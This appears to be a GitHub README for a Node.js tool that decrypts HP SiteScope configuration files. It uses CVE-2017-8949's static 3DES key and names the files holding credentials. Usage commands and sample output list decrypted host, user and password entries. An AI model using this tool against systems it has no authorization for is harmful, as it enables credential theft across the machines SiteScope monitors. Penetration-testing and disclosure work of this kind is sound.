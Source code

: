 A tool to decrypt for HP SiteScope configuration files
=======

HP SiteScope keeps password information in two files:
* C:\SiteScope\groups\users.config is a text config file with credentials to HP SiteScope
* C:\SiteScope\persistency\random_file_name.ssf is a java serialized object file with credentials to Widnows and *nix machines

The tool uses CVE-2017-8949 vulnerability, which allows to decrypt any HP SiteScope's password using 3DES algorithm and a static key.

Installation:
```
$ npm install
$ ./decryptor.js --help
```

Usage:
```
$ ./decryptor.js -p '(sisp)va1xBRC68d2p/zkd3YVpPg=='
$ ./decryptor.js --ssf-file ./../12345678.ssf | column -t -s ';'
HOST: 10.0.0.1      OS: RHESLinux    USER: pentest                 PASSWORD: pentest
HOST: \\10.0.0.2    OS: NT           USER: PENTEST\Administrator   PASSWORD: pentest
```
